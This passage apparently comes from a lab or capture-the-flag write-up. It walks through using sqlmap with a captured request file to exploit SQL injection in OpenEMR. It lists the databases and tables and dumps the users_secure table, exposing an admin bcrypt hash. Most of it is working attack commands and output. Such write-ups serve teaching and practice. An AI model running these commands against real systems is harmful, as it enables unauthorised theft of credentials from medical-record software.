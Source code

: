 And then tell sqlmap to use this req file:

```
$ sqlmap -r "$(pwd)/sqli.req" --random-agent --threads 10 --batch -b
```

Now let's use sqlmap dump options.

`--dbs`

```
available databases [2]:
[*] information_schema
[*] openemr
```

`-D openemr --tables`

```
Database: openemr
[234 tables]
+---------------------------------------+
| array                                 |
| groups                                |
| sequences                             |
...
| user_settings                         |
| users                                 |
| users_facility                        |
| users_secure                          |
| valueset                              |
| voids                                 |
| x12_partners                          |
+---------------------------------------+
```

`-D openemr -T users --columns`

`-D openemr -T users -C username,password --dump`

```
Database: openemr
Table: users
[3 entries]
+-----------------+--------------+
| username        | password     |
+-----------------+--------------+
| openemr_admin   | NoLongerUsed |
| phimail-service | NoLogin      |
| portal-user     | NoLogin      |
+-----------------+--------------+
```

It seems not to be the right table, lets' try this one instead.

`-D openemr -T users_secure -C username,password --dump`

```
Database: openemr
Table: users_secure
[1 entry]
+---------------+--------------------------------------------------------------+
| username      | password                                                     |
+---------------+--------------------------------------------------------------+
| openemr_admin | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. |
+---------------+--------------------------------------------------------------+
```
